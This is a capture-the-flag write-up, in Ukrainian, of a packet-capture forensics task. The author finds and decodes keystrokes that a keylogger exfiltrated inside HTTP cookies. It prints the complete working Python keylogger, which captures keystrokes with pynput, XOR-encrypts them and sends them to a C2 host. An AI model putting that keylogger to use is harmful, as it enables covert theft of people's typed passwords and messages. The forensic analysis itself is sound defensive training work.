





# Packed Light
## Tiny packets. Odd hours. Suspiciously regular. Someone's smuggling out the data equivalent of a hotel towel every night, folded neatly inside traffic that looks ordinary until you decode it.

Ціль: `traffic.pcapng`





## Аналіз через Wireshark

   Переглядаю трафік на порт `8080` з фільтром `tcp.port == 8080`. Перше, що кидається в очі — два HTTP-пакети:
* `GET /temp/updates.py`
* відповідь `HTTP/1.0 200 OK` з Python-кодом



   У відповіді наступний код:
```python
import requests
import base64
from pynput import keyboard

C2_URL = "http://byte-lotus-hotel.thm:8080/"

def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return p1 + p2

def xor(data: bytes, key: bytes) -> bytes:
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

def sendltr(character):
    raw_bytes = character.encode('utf-8')
    encrypted = xor(raw_bytes, getkey().encode('utf-8'))
    
    b64_string = base64.b64encode(encrypted).decode('utf-8')
    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1",
        "Cookie": f"hotel_sess_state={b64_string}"
    }    
    try:
        requests.get(C2_URL, headers=headers, timeout=0.5)
    except:
        pass

def on_press(key):
    try:
        sendltr(key.char)
    except AttributeError:
        if key == keyboard.Key.space:
            sendltr(" ")
        elif key == keyboard.Key.enter:
            sendltr("\n")

print("[*] Byte Lotus Sync Service started...")
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

## Аналіз коду
   Код є простим **keylogger'ом** із механізмом передачі зібраних даних на C2-сервер.
   Функція `on_press()` перехоплює натискання клавіш за допомогою `pynput`. Для кожного символу викликається `sendltr()`.
   У `sendltr()` дані проходять наступний ланцюжок:
```text
Key press => UTF-8 => XOR => Base64 => HTTP Cookie => C2 :8080
```

   Ключ для `XOR` знаходиться безпосередньо у коді `H0t3lSt@ff0NlyK3epS3cr3t!`. Також важливо, що зашифрований символ передається у `Cookie: hotel_sess_state=<base64_data>`. 
   
   Таким чином, код дає нам усе необхідне для відновлення ексфільтрованих даних:
* C2: `byte-lotus-hotel.thm:8080`
* метод передачі: `HTTP GET`
* місце приховування даних: `Cookie hotel_sess_state`
* кодування: `Base64`
* шифрування: `XOR`
* ключ: `H0t3lSt@ff0NlyK3epS3cr3t!`   

## Пошук вилучених даних
   Вмикаю `http.request` фільтр:



   У трафіку з'являється велика кількість HTTP-запитів приблизно однакової структури. У кожному з них присутній `Cookie: hotel_sess_state=<base64_data>`.
   Це відповідає логіці знайденого **keylogger'а**: кожне натискання клавіші відправляється окремим HTTP-запитом.

## Ручне декодування
   Для перевірки механізму спочатку декодую кілька `Cookie` вручну за допомогою `decode.py`:
```python
import base64

key = b"H0t3lSt@ff0NlyK3epS3cr3t!"

cookie = "ТУТ_BASE64_cookie"
encrypted = base64.b64decode(cookie)

plain = bytes(
    b ^ key[i % len(key)]
    for i, b in enumerate(encrypted)
)

print(cookie)
print(plain.decode())
```

   Перевіряю перші три значення:
```bash
└─$ python3 decode.py
HA==
T
└─$ python3 decode.py
AA==
H
└─$ python3 decode.py
BQ==
M
```

   Це підтверджує, що `Cookie` дійсно містить ексфільтровані дані, а порядок HTTP-запитів відповідає порядку символів. Оскільки кожен `Cookie` містить дані лише одного натискання клавіші, `XOR`-операцію необхідно виконувати окремо для кожного `Cookie`, після чого об'єднати отримані символи у початковому порядку.

## Вилучення всіх `Cookie`
   Щоб отримати всі значення автоматично, використовую `tshark`:
```bash
└─$ tshark -r traffic.pcapng \ 
  -Y 'http.request && tcp.port == 8080' \
  -T fields \
  -e frame.number \
  -e http.host \
  -e http.request.uri \
  -e http.cookie
16      byte-lotus-hotel.thm:8080       /temp/updates.py
391     byte-lotus-hotel.thm:8080       /       hotel_sess_state=HA==
428     byte-lotus-hotel.thm:8080       /       hotel_sess_state=AA==
520     byte-lotus-hotel.thm:8080       /       hotel_sess_state=BQ==
585     byte-lotus-hotel.thm:8080       /       hotel_sess_state=Mw==
619     byte-lotus-hotel.thm:8080       /       hotel_sess_state=Hg==
707     byte-lotus-hotel.thm:8080       /       hotel_sess_state=ew==
740     byte-lotus-hotel.thm:8080       /       hotel_sess_state=Og==
790     byte-lotus-hotel.thm:8080       /       hotel_sess_state=fA==
815     byte-lotus-hotel.thm:8080       /       hotel_sess_state=Fw==
840     byte-lotus-hotel.thm:8080       /       hotel_sess_state=eQ==
868     byte-lotus-hotel.thm:8080       /       hotel_sess_state=Ow==
907     byte-lotus-hotel.thm:8080       /       hotel_sess_state=Fw==
932     byte-lotus-hotel.thm:8080       /       hotel_sess_state=Pw==
961     byte-lotus-hotel.thm:8080       /       hotel_sess_state=fA==
990     byte-lotus-hotel.thm:8080       /       hotel_sess_state=PA==
1019    byte-lotus-hotel.thm:8080       /       hotel_sess_state=Kw==
1038    byte-lotus-hotel.thm:8080       /       hotel_sess_state=IA==
1056    byte-lotus-hotel.thm:8080       /       hotel_sess_state=eQ==
1076    byte-lotus-hotel.thm:8080       /       hotel_sess_state=Jg==
1094    byte-lotus-hotel.thm:8080       /       hotel_sess_state=Lw==
1114    byte-lotus-hotel.thm:8080       /       hotel_sess_state=Fw==
1132    byte-lotus-hotel.thm:8080       /       hotel_sess_state=eA==
1150    byte-lotus-hotel.thm:8080       /       hotel_sess_state=Pg==
1168    byte-lotus-hotel.thm:8080       /       hotel_sess_state=LQ==
1190    byte-lotus-hotel.thm:8080       /       hotel_sess_state=Gg==
1220    byte-lotus-hotel.thm:8080       /       hotel_sess_state=Fw==
1240    byte-lotus-hotel.thm:8080       /       hotel_sess_state=MQ==
1260    byte-lotus-hotel.thm:8080       /       hotel_sess_state=eA==
1278    byte-lotus-hotel.thm:8080       /       hotel_sess_state=PQ==
1300    byte-lotus-hotel.thm:8080       /       hotel_sess_state=NQ==
```

## Автоматизоване декодування
   Оскільки кількість `Cookie` вже досить велика, автоматично витягую та декодую їх за допомогою `script_v2.py`:
```python
import subprocess
import base64

KEY = b"H0t3lSt@ff0NlyK3epS3cr3t!"

cmd = [
    "tshark",
    "-r", "traffic.pcapng",
    "-Y", 'http.request && tcp.port == 8080',
    "-T", "fields",
    "-e", "http.cookie"
]

result = subprocess.run(cmd, capture_output=True, text=True)

recovered = ""

for line in result.stdout.splitlines():
    line = line.strip()

    if not line.startswith("hotel_sess_state="):
        continue

    b64 = line.split("=", 1)[1]

    encrypted = base64.b64decode(b64)

    decrypted = bytes(
        b ^ KEY[i % len(KEY)]
        for i, b in enumerate(encrypted)
    )

    recovered += decrypted.decode("utf-8")

print("[+] Recovered data:")
print(recovered)
```

   Після запуску отримую прапор кімнати:



## Висновки
   У цій кімнаті потрібно було проаналізувати **PCAP** та знайти прихований канал ексфільтрації даних. Під час аналізу трафіку на `8080` було знайдено Python-код **keylogger'а**, який перехоплював натискання клавіш та передавав кожен символ на C2-сервер через HTTP `Cookie hotel_sess_state`. Дані були захищені простим `XOR` із ключем, який знаходився у самому коді, після чого результат кодувався через `Base64`. Витягнувши `Cookie` з **PCAP** та автоматизувавши їх декодування, вдалося відновити передані дані та отримати **flag**.
